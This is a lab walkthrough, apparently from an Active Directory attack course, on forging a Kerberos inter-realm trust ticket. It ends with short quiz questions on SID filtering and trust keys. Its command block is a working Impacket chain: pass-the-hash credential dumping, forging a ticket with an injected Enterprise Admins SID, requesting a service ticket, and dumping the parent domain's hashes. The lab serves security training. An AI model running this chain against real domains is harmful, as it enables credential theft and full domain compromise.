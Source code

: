 #Forging Trust Tickets

Earlier, we've performed the Trustpocalypse attack, which forges a TGT with an injected SID: The EAs SID.
This TGT is then sent to the CAPTAIN, CAPTAIN will create a Trust Ticket, or an Inter-Realm Ticket, and forward this ticket to the CHIEF DC. This Trust Ticket is encrypted using the trust key, rather than with the krbtgt's key.

In this attack, we'll cut to the chase and forge the trust ticket itself using the trust key. Instead of forging a TGT and letting the trusted DC (CAPTAIN) generate the inter-realm ticket, we now forge the inter-realm ticket ourselves using the trust key (ALTAIR$). This allows direct access to services in the trusting domain (ALTAIR) without relying on CAPTAIN. We'll follow the same steps as in the Trustpocalypse attack. This attack helps further understanding how cross domain authentication is processed from an attacker's point of view. The end result of this attack is the same as the Trustpocalypse attack.

```
#retrieve the ALTAIR$ password hash, the trust account present in CAPTAIN
#remember to use your own hashes from your environment, they might be different
secretsdump.py north.altair.local/administrator@192.168.122.10 -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86
#[+] ALTAIR$:1103:aad3b435b51404eeaad3b435b51404ee:5c637c666075bc3fe4ba6d5688536cc1:::
#forge a referral ticket
ticketer.py -nthash 5c637c666075bc3fe4ba6d5688536cc1 -domain-sid S-1-5-21-1162943719-2261011477-1519509434 -domain north.altair.local -extra-sid S-1-5-21-1073456172-1737515156-949376640-519 -spn krbtgt/altair.local berntheman
export KRB5CCNAME=/home/ubuntu/berntheman.ccache
#use the interrealm ticket to get a service ticket to the cifs/smb service with EA privileges
getST.py -k -no-pass -spn cifs/chief.altair.local altair.local/berntheman@altair.local -debug
#compromise the altair domain
export KRB5CCNAME=/home/ubuntu/berntheman@altair.local@cifs_chief.altair.local@ALTAIR.LOCAL.ccache
secretsdump.py -k -no-pass -just-dc-ntlm berntheman@chief.altair.local
```

Done! This is a different way of forging a ticket that compromises trusting domains!

!!! question
    What's the difference between this and the Trustpocalypse attack?
??? success "Answer"
    In Trustpocalypse, the attacker forges a TGT and lets the trusted DC create the trust ticket.
    In this attack, the attacker forges the trust ticket directly using the trust key, bypassing the trusted DC.

!!! question
    Would SID Filtering mitigate this attack?
??? success "Answer"
    Yes, SIDs from different domains would still be filtered when authenticating to the altair domain, which would render this attack useless.

!!! question
    What role does the trust key have play in cross-domain authentication?
??? success "Answer"
    The trust key is used to encrypt and sign trust tickets issued by the trusted domain, proving their validity to the trusting domain. Through the use of a trust key, the trusting domain can determine if the ticket is actually sent from a trusted domain, since trust keys are agreed between trusted and trusting domains upon trust relationship establishment.